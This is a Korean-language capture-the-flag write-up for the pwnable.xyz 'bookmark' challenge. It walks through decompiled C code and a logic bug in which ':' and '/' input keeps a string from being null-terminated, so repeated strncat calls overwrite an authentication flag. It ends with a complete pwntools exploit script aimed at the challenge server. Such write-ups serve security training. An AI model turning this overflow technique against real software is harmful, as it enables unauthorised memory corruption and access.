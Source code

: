 ```yaml
---
title: "[pwnable.xyz]bookmark"
date: 2020-2-1
ctf: Pwnable.xyz
layout: post
published : false
---
```


랭킹 1페이지 찍엇당..

우선 바이너리를 보호기법 다 걸려있다.

```
[*] '/vagrant/ctfs/challenge'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

메인함수 처음 시작에 `qword_202300` 라는 전역변수에 랜덤값을 넣어준다.

```c
int init_login()
{
  int fd; // [rsp+Ch] [rbp-4h]

  fd = open("/dev/urandom", 0);
  if ( fd == -1 )
    exit(1);
  read(fd, &qword_202300, 8uLL);
  return close(fd);
}
```

1번 메뉴에서는 랜덤값을 저장한 변수와 입력한 값을 비교해서 `dword_202308` 변수에 1을 넣어주는데 이를 통해 4번 메뉴에서 win함수를 호출시킬 수 있다. 아마 이 문제의 핵심은 `qword_202300` 를 알아내거나 `dword_202308` 를 0이 아닌 아무 값으로 덮어주면 되는 것이다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 savedregs; // [rsp+10h] [rbp+0h]

  setup();
  init_login();
  puts("Web bookmarks.");
  while ( 1 )
  {
    print_menu();
    read_long();
    switch ( &savedregs )
    {
      case 0u:
        return 0;
      case 1u:
        printf("Password: ", argv);
        if ( qword_202300 == read_long() )
          dword_202308 = 1;
        break;
      case 2u:
        create_url();
        break;
      case 3u:
        argv = bm;
        printf("url: %s\n", bm);
        break;
      case 4u:
        if ( dword_202308 )
        {
          puts("Not Implemented.");
          puts("But here is a reward.");
          win();
        }
        break;
      default:
        puts("Invalid");
        break;
    }
  }
}
```

여기서 bm이라는 전역변수에 값을 써줄 수 있는 곳이다.

```c
int create_url()
{
  void *buf; // ST18_8
  signed int v2; // [rsp+Ch] [rbp-14h]
  char *v3; // [rsp+10h] [rbp-10h]

  printf("Secure or insecure: ");
  read(0, bm, 9uLL);
  if ( strncmp(bm, "http", 4uLL) )
    return puts("Not a valid URL.");
  if ( byte_202204 == 's' )
    v3 = &unk_202205;
  else
    v3 = &byte_202204;
  while ( *v3 == ':' || *v3 == '/' )
    ++v3;
  *v3 = 0;
  printf("Size of url: ", "http");
  v2 = read_long();
  if ( v2 < 0 || v2 > 127 )
    return puts("Too large.");
  buf = malloc(v2);
  read(0, buf, v2);
  return strncat(bm, buf, 0x100uLL);
}
```

`create_url` 함수에서 로직 버그가 터진다. 만약 여기 bm에 strncat으로 이어붙이는데 계속 이어붙일 수 잇다면 bm과 `dword_202308` 의 거리는 264이기 때문에 덮을 수 있을거다.

```
bm = 0x0000000000202200
byte_202204 = 0x0000000000202204
unk_202205 = 0x0000000000202205
qword_202300 = 0x0000000000202300
dword_202308 0x0000000000202308
```

여기서 취약점은 *v3가 ':' 이거나 '/' 이면 ++v3; 해주기 때문에 취약점이 발생한다. 왜냐하면 strncat은 널바이트를 자르고 그 이후로  붙여주기 때문에 *v3 = 0이 안되도록 하면 된다. 그로 인해 ':'나 '/'을 계속 넣어주고 다시 create_url함수를 실행시켜서 문자열을 계속 붙여주면 널바이트부터 이어서 붙여지기때문에 한 3번만 하면  `dword_202308` 변수를 덮을 수 있다.

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./challenge')
# p = process('./challenge')
p = remote('svc.pwnable.xyz',30021)
sa = lambda x,y : p.sendafter(x,y)
sla = lambda x,y : p.sendlineafter(x,y)

def login(passwd):
	sla('>','1')
	sa(':',passwd)

def create_url(url,size,data):
	sla('>','2')
	sa(':',url)
	sa(':',str(size))
	p.send(data)

def print_url():
	sla('>','3')

def save_url(): # win()
	sla('>','4')

def quit():
	sla('>','0')

create_url('https',127,':'*127)
create_url('https',127,':'*127)
create_url('https',127,':'*127)
#login(str(0x3a3a3a3a3a3a3a3a))
save_url()

p.interactive()
```